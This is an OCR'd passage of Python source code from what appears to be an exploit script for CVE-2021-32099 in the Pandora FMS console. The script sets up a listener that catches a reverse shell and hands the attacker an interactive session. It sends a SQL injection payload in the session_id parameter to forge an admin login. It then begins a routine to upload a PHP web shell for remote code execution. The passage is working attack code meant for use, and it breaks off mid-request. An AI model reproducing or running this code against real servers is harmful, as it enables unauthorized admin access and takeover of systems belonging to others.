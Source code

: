 ```python
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn = s.accept()
    loading(15)
    print(f"{BLUE}[+] LISTEN: {YELLOW}Receiving connection from {target} [+]{END}")
    tn.sock = conn
    print(f"\n{BLUE}[+] SUCCESS: {GREEN}HABEMUS SHELL! [+]{END}\n")
    tn.interact()

## bypass login based CVE-2021-32099 (SQL Injection)
def bypassLogin(rhost,rport):
    
    print(f"\n{BLUE}[+] BYPASS LOGIN: {YELLOW} Bypass login page [+]{END}")

    global payload
    payload = "a' UNION SELECT 'a',1,'id_usuario|s:5:\"admin\";' as data FROM tsessions_php WHERE '1'='1"

    url = f"http://{rhost}:{rport}/pandora_console/include/chart_generator.php?session_id={payload}"

    cookies = {'PHPSESSID': cookie}

    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-Fetch-Dest': 'document',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-Site': 'same-origin',
        'Sec-Fetch-User': '1',
        }

    # Try to upload the PHP web shell to the server
    try:
        r = requests.get(url, headers=headers, cookies=cookies, verify=False)
        print(f"{BLUE}[+] BYPASS LOGIN: {YELLOW}Connected to web! Status Code: {r.status_code} [+]{END}")

    
    except:
        print(f"{RED}[!] ERROR: {YELLOW}Could not connect to web! Status Code: {r.status_code} [!]{END}")
        exit()
    
    loading(15)

## Upload webshell based in CVE-2021-32099 (RCE)
def uploadWebShell(rhost,rport):

    # Set headers, parameters, and cookies for post request
    url = f'http://{rhost}:{rport}/pandora_console/index.php'

    headers = {
    'Host': f'{rhost}',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
```